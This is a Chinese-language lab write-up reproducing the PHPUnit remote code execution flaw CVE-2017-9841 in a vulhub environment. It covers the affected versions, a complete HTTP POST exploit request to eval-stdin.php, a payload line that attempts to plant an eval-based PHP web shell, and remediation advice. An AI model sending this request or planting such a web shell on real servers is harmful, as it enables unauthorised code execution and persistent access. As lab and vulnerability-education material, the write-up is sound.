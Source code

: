 # PHPUnit远程执行代码（CVE-2017-9841）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->命令执行

### 0x01漏洞介绍

PHPUnit是面向程序员的PHP测试框架。

`Util/PHP/eval-stdin.php`在4.8.28之前的PHPUnit和5.6.3之前的5.x中允许远程攻击者通过以`<?php`子字符串开头的HTTP POST数据执行任意PHP代码，如对具有暴露的/ vendor文件夹的站点的攻击（即外部访问）所证明的到`/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`URI。

##### 			影响版本

```
phpunit 4.8.19 - 4.8.27
phpunit 5.0.10 - 5.6.2
```

### 0x02漏洞复现

#### payload

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1

Host: 192.168.15.130:8080

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: phpMyAdmin=kQNMsJ02WvJVFPRjybK8UKVgUyc

Upgrade-Insecure-Requests: 1

Content-Length: 15



<?=phpinfo();?>
<?=file_put_contents("1.php", '<?=eval($_REQUEST[1]);?>');//木马未写成功
```

![PHPUnit远程代码执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHPUnit远程代码执行漏洞_1.jpg)

### 0x03漏洞修复

生产环境直接删掉phpunit

升级phpunit

设置权限，禁止访问该目录